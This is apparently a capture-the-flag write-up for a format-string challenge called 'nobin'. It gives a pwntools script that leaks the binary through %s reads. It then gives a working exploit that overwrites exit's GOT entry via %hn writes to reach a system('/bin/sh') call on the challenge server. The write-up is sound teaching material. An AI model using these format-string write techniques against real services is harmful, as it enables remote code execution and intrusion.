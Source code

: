 # nobin

###### This challenge is about formatstrings. However you have nothing except the server connection. 
If you send a few ```%p```'s, you see that the challenge has aslr, but no pie. That means you are able to leak the binary
with the formatstring ```%s```. There are many way's to do that, but I used python pwntools for my leak programm:
```python
from pwn import *

addr = 0x400000

while(addr != 0x400a00):
  p = process("./nobin")
  f = open("./leaked", "a")
  print("addr: " + str(hex(addr)))
  p.sendline("%7$sBBBB" + p64(addr))
  leak = p.recv().split("B")
  if(leak[0] == ""):
      f.write("\x00")
      addr += 1
  else:
      f.write(leak[0])
      addr += len(leak[0])
  p.close()
  f.close()

addr = 0x400a00

while(addr != 0x400b00):
  p = process("./nobin")
  f = open("./leaked", "a")
  print("addr: " + str(hex(addr)))
  f.write("\x00")
  addr += 1
  p.close()
  f.close()

addr = 0x400b00

while(addr != 0x600000):
  p = process("./nobin")
  f = open("./leaked", "a")
  print("addr: " + str(hex(addr)))
  p.sendline("%7$sBBBB" + p64(addr))
  leak = p.recv().split("B")
  if(leak[0] == ""):
      f.write("\x00")
      addr += 1
  else:
      f.write(leak[0])
      addr += len(leak[0])
  p.close()
  f.close()

addr = 0x600000

while(addr != 0x602000):
  p = process("./nobin")
  f = open("./leaked", "a")
  print("addr: " + str(hex(addr)))
  p.sendline("%7$sBBBB" + p64(addr))
  leak = p.recv().split("B")
  if(leak[0] == ""):
      f.write("\x00")
      addr += 1
  else:
      f.write(leak[0])
      addr += len(leak[0])

  p.close()
  f.close()

p.interactive()
```
###### This programm will leak the whole binary. Just run the script and wait.
#
If you are finished, you can take a look at the binary in a debugger or decompiler. You will find a function
(at ```0x40081a```) with the string "/bin/sh" moved into rdi. After that a function is called. It seems like
```system()```. So now we need to write to an address to call this system. So why not into the got of the
last function call in main (at ```0x400757```). It could be exit. So lets try that. If we do that, we get a message
**not that easy**. So if we look at the disassembly, we see that an address is compared with ```0x1337```. So we
have to write to that address (```0x60108c```) too. But we have only one read and printf, so we have to
overwrite ```exit()``` with ```main()```, then write to the address and lastly overwrite ```exit()``` (at ```0x601048```)
with ```0x40081a```. So here's the exploit:

```python
from pwn import *

p = remote("34.121.19.183", 49156)

exit_got = 0x601048
var = 0x60108c

p.sendline("%9$1879p%9$hnAAAAAAAAAAA" + p64(exit_got))
p.sendline("%9$4919p%9$hnAAAAAAAAAAA" + p64(var))
p.sendline("%9$2074p%9$hnAAAAAAAAAAA" + p64(exit_got))
p.interactive()
```
###### And we get a shell! Nice!
